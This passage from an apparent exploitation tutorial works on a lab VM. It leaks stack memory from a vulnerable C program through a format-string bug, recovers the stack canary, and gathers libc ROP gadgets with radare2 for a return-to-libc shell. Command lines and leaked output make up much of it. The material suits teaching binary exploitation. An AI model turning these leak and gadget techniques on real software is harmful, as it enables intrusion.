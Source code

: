 So we see that format strings like %s, %d etc can be used to specify a data format. The [full list for C is here](https://cplusplus.com/reference/cstdio/printf/). So %d will go for the decimal integer, c for character and...x for hexadecimal... Also, we can specify the length: for example ll will stand for long long int. And we can combine them together so llx will specify an x64 address!

Going back to our program, we see it basically sends the content of the first argument sent to the program straight to printf, without any checks nor additional format specifications inside the program. So if we send a buffer containing only format specifiers, without any actual text nor data, the program will try to refeer to the data on the stack thus leaking memory, in our format of interest:

We can try to send the following buffer as the argument:
```
%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
```
And we will see the memory leaks:
```
lab@lab-VirtualBox:~/canary$ ./vuln_canary %llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
7fffffffdfd8,7fffffffdff0,5555555547f0,7ffff7dced80,7ffff7dced80,0,7fffffffe317,0,7ffff7ffe710,7ffff7b95687,0,7fffffffde50,7fffffffde60,7ffff7ffea98,0,0,7fffffffde70,ffffffff,0,7ffff7ffb2a8,7ffff7ffe710,0,0,0,0,9,7ffff7dd5660,7fffffffdf08,f0b5ff,1,55555555483d,7ffff7de3b40,ec6f25befc82300,7fffffffdef0,5555555547e1,7fffffffdfd8,200000000,5555555547f0,7ffff7a03c87,2,7fffffffdfd8,200008000,5555555547bf,0,be51b7a7fa1c8578,555555554630,7fffffffdfd0,0
```
Having previously reversed our program we can easily identify something that resembles our canary:
```
lab@lab-VirtualBox:~/canary$ ./vuln_canary  %33\$llx
7e791a4e294e1100

Hi there  !!
lab@lab-VirtualBox:~/canary$ 
lab@lab-VirtualBox:~/canary$ ./vuln_canary  %33\$llx
85f4f9bb91ee7100
```
There it is!

From this point, writting the exploit is very easy if we understand the fundamentals. We just need to 1) automatically retrieve the canary by a memory leak 2) overflow/overwrite the stack placing the (retrieved) value of the canary in its position (local_8h). Then proceed with the exploit as usual.

[!stack](https://miro.medium.com/max/1400/1*VV_5Nf_jCSYzjTdkrX_2YQ.png)


So we can kind of re-craft our exploit by using the return from libc technique, previously discussed in this blog.

We start by searching inside libc:
```
[0x555555554630]> e search.from=0x7ffff7dd3000
[0x555555554630]> e search.to=0x7ffff7dfc000
```
Retrieving ret, pop rdi; ret and the addresses from system, bin/sh and exit. So we can launch a shell:
```
[0x555555554630]> /R ret
  0x7ffff7dd336c       69374ab593d1  imul esi, dword [rdi], 0xd193b54a
  0x7ffff7dd3372               70ed  jo 0x7ffff7dd3361
  0x7ffff7dd3374                 54  push rsp
  0x7ffff7dd3375         a9a542b486  test eax, 0x86b442a5
  0x7ffff7dd337a                 c3  ret


[0x555555554630]> /R pop rdi
  0x7ffff7dd47fb                 5f  pop rdi
  0x7ffff7dd47fc                 c3  ret
```